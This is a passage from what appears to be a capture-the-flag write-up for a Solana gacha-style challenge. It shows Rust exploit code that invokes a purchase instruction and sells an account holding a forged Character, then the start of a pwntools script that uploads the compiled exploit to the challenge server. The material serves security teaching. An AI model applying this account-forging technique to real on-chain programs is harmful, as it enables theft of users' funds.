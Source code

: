 ```rust
// create the instruction
let exp = Instruction {
    program_id: *gft.key,
    accounts: vec![
        AccountMeta::new(*character_info.key, false),
        AccountMeta::new(*user.key, true),
        AccountMeta::new(*vault.key, false),
        AccountMeta::new_readonly(system_program::id(), false),
    ],
    data: GachaInstruction::BuyPrimos { amount, vault_bump }
        .try_to_vec()
        .unwrap(),
};

// invoke the instruction
let _ = invoke(
    &exp,
    &[
        character_info.clone(),
        user.clone(),
        vault.clone(),
        sys.clone(),
    ],
);
```
#### Sell the account with the forged `Character`
```rust
let _ = invoke(
    &sell_account(*gft.key, *user.key, account_name, &[character_id]),
    &[
        useraccount.clone(),
        user.clone(),
        vault.clone(),
        character_info.clone(),
        sys.clone(),
    ],
);
```
#### Profit


### python script to send our program to the server

We have to connect to the server, send our compiled program size and our program and then retrieve the challenge program and user program pubkey, we can then send our accounts and data to call our program's entrypoint

```python 
from pwn import *
from solana.publickey import PublicKey
from solana.system_program import SYS_PROGRAM_ID

host = args.HOST or "localhost"
port = int(args.PORT or 5000)
solve_so = "solve.so"

io = connect(host, port)

# read our program from file
with open(solve_so, "rb") as f:
    solve_so_data = f.read()

# send program's size to server
io.sendlineafter(b"len", str(len(solve_so_data)).encode("ascii"))
```